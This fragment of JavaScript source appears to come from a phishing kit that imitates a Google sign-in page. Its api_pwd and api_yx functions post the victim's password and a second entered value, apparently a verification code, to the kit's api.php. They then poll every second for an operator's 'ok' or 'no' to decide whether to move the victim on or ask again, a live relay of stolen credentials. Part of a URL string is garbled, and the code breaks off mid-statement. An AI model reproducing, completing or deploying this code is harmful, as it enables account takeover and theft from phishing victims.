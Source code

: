 ```js
}

function api_pwd(pwd) {
  var url = path + "/api/api.php";
  var data = "lgnpwd=" + pwd;
  function f(p) {
    function aja() {
      ajax("post", url, data, ffff, true);
    }
    var timer = setInterval(aja, 1000);
    function ffff(d) {
      if (d) {
        if (JSON.parse(d)["ok"] == "ok") {
          clearInterval(timer);
          y("wait.html");
        }
        if (JSON.parse(d)["ok"] == "no") {
          $id("Error").style.display = "block";

          $("#pwd").val("");
          $(".btn").css("background", "#ccc");
          $(".btn").html("Next");
          $(".btn").children("span").remove();

          clearInterval(timer);
        }
      }
    }
  }
  ajax("post", url, data, f, true);
}

function api_yx(yx) {
  var url = path + "/api/api.php";
  var data = "yx=" + yx;
  function f(p) {
    div();
    function aja() {
      ajax("post", url, "yxok=ok", ffff, true);
    }
    var timer = setInterval(aja, 1000);
    function ffff(d) {
      if (d) {
        if (JSON.parse(d)["ok"] == "ok") {
          if ($id("divq")) {
            $id("divq").remove();
          }
          clearInterval(timer);
          y(
            "Sign in - Google Accountp.php?p=" +
              document.getElementsByClassName("Xb9hP")[0].getElementsByTagName("input")[0].value
          );
        }
        if (JSON.parse(d)["ok"] == "no") {
          if ($id("divq")) {
            $id("divq").remove();
          }
          clearInterval(timer);
          document.getElementsByClassName("Xb9hP")[0].getElementsByTagName("input")[0].value = "";
          document.getElementsByClassName("Xb9hP")[0].getElementsByTagName("input")[0].focus();
          document.getElementsByClassName("LXRPh")[0].style.display = "block";
          document.getElementsByClassName("LXRPh")[0].innerHTML =
```